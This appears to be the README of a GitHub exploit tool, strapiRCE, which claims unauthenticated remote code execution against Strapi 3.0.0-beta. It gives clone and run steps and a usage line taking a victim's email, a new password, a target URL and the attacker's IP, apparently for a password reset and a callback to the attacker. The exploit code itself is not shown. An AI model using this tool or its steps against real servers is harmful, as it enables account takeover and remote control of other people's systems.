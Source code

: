 # strapiRCE
Strapi 3.0.0-beta - Remote Code Execution (RCE) (Unauthenticated)

## Tested in:
 - Kali linux 2021.4a
 - Parrot security 4.11.3
 
## Installation:
```
git clone https://github.com/Invertebr4do/strapiRCE 

cd strapiRCE && chmod +x strapiRCE.py
```

## Usage:
```
./strapiRCE.py <EMAIL> <NEW_PASSWORD> <URL> <YOUR_IP>
```
[![code](https://github.com/Invertebr4do/strapiRCE/blob/main/strapiRCE.png?raw=true "code")](https://github.com/Invertebr4do/strapiRCE/blob/main/strapiRCE.png?raw=true "code")
